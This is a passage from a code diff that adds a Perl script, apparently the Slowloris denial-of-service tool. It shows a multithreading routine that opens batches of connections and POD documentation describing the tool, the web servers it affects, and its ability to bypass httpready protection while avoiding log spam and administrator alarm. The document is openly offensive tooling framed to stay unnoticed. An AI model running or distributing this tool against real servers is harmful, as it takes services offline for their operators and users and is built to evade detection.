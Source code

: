 +    }
+}
+
+sub domultithreading {
+    my ($num) = @_;
+    my @thrs;
+    my $i                    = 0;
+    my $connectionsperthread = 50;
+    while ( $i < $num ) {
+        $thrs[$i] =
+          threads->create( \&doconnections, $connectionsperthread, 1 );
+        $i += $connectionsperthread;
+    }
+    my @threadslist = threads->list();
+    while ( $#threadslist > 0 ) {
+        $failed = 0;
+    }
+}
+
+__END__
+
+=head1 TITLE
+
+Slowloris by llaera
+
+=head1 VERSION
+
+Version 1.0 Stable
+
+=head1 DATE
+
+02/11/2013
+
+=head1 AUTHOR
+
+Laera Loris llaera@outlook.com
+
+=head1 ABSTRACT
+
+Slowloris both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.
+
+=head1 AFFECTS
+
+Apache 1.x, Apache 2.x, dhttpd, GoAhead WebServer, others...?
+
+=head1 NOT AFFECTED
+
+IIS6.0, IIS7.0, lighttpd, nginx, Cherokee, Squid, others...?
